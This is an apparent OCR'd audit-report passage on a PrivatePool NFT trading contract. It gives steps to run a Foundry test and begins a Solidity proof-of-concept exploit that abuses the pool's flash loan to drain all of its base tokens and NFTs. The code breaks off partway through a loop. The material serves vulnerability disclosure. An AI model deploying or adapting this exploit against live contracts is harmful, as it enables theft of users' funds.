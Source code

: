 To run the test:

1.Save `PrivatePoolExploit.sol` under path `src/attacks/PrivatePoolExploit.sol`
2.Save `Attack.t.sol` under path `src/test/PrivatePool/Attack.t.sol`
3.Run the test with the command `forge test --match-contract AttackTest`

PrivatePoolExploit.sol
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ERC20} from "solmate/tokens/ERC20.sol";
import {ERC721} from "solmate/tokens/ERC721.sol";
import {IERC3156FlashBorrower} from "openzeppelin/interfaces/IERC3156FlashBorrower.sol";
import {PrivatePool} from "../PrivatePool.sol";


contract PrivatePoolExploit is IERC3156FlashBorrower {
    PrivatePool private immutable _privatePool;
    ERC20 private immutable _baseToken;
    ERC721 private immutable _nftToken;
    address private immutable _owner;

    uint private transferFromCalled;

    uint[] private tokenIds;

    constructor(PrivatePool _target) {
        _privatePool = _target;
        _baseToken = ERC20(_target.baseToken());
        _nftToken = ERC721(_target.nft());
        _owner = msg.sender;
    }

    function attack(uint[] calldata _tokenIds) external {
        tokenIds = _tokenIds;
        _privatePool.flashLoan(
            this,
            address(this),
            0,
            abi.encode(_tokenIds)
        );
    }


    function safeTransferFrom(
        address,
        address,
        uint256
    ) public {
    }

    function onFlashLoan(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external returns (bytes32) {
        // Transfer all base tokens to this contract
        _baseToken.transferFrom(address(_privatePool), address(this), _baseToken.balanceOf(address(_privatePool)));

        // Transfer all NFTs to the owner
        for (uint i = 0; i < tokenIds.length; i++) {
```